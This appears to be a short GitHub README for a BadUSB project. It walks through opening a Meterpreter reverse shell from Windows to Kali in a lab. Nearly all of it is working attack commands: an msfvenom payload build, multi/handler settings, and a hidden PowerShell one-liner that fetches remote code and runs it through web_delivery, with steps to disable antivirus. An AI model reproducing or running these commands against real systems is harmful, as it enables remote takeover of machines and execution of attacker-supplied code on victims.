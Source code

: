 # Keyboard_BadUSB
(need a better name for the project)


# Opening a revershell from windows to kali

Confingure both machines to be in the same internal network and able to ping each other.

Generate the payload using msfvenon.  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Disbale antirvirus and transfer the payload to the victim machine.

Set up a reverse shell handler in kali.  
```
> use exploit/multi/handler  
> set payload windows/meterpreter/reverse_tcp
> set lhost=<IP>
> set lport=<PORT>
> run
```

Run the exe in victim machine and wait for connection.


# Exploiting via web delivery

In msfconsole,
```
use exploit/multiscript/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```

set lhost and lport

in windows cmd with antivirus disabled,
```
powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://<ip>:<port>/<uri>');
```
